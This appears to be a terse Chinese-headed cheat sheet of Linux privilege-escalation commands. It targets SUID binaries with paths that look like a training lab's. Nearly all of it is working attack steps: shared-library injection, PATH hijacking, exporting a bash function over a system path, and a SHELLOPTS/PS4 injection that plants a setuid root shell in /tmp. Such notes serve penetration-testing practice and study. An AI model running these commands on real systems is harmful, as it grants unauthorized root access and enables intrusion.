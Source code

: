 - 共享库注入权限

```
	/usr/local/bin/suid-so 
	
	strings /usr/local/bin/suid-so  
	
	strace /usr/local/bin/suid-so 2>&1 | grep '/home/user'  
	
	gcc -shared -fPIC -o libcalc.so libcalc
	
	/usr/local/bin/suid-so
```

- 环境变量利用提权

```
	strings /usr/local/bin/suid-env
	
	gcc -o service service.c
	
	export PATH=.:$PATH
	
	echo $PATH
	
	/usr/local/bin/suid-env

	ln -s /bin/sh cp
```


```
	echo "/bin/bash" > /tmp/id
	
	chmod 777 /tmp/id
	
	export PATH=/tmp:$PATH
	
	./toto
	
```


- bash < 4.2
	
```
	/bin/bash --version
	
	function /usr/sbin/service { /bin/bash -p; }
	
	export -f /usr/sbin/service 
```

- bash<4.4

```
	bash --version
	
	env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2  
	
	/usr/local/bin/suid-env2
```
